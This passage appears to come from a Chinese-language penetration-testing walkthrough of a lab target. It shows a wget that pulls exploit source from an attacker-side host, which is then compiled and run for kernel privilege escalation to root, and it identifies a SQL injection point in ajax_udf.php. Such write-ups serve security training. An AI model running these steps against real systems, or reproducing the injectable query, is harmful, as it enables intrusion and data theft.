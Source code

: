 [![](assets/1704158282-e793318db5e7e84a39bc876cd4b413a3.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231229010541-54bc2338-a5a3-1.png)

> 拿到www-data权限，可以查看进程与连接 postgresql

## （4）内核提权（CVE-2003-0127）

```plain
wget http://192.168.220.128:8081/37292.c

chmod +x 37292.c
gcc 37292.c -o test
chmod +x test
./test
```

> 拿到root权限

## （5）注入点探索

```plain
文件/var/www/html/jabcd0cs/ajax_udf.php
存在注入的地方 $query = 'SELECT * FROM ' . $_GET["add_value"];
```

[![](assets/1704158282-bb19b625b7e9c8e2ffc967e226e20652.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231229010549-598ee1d4-a5a3-1.png)
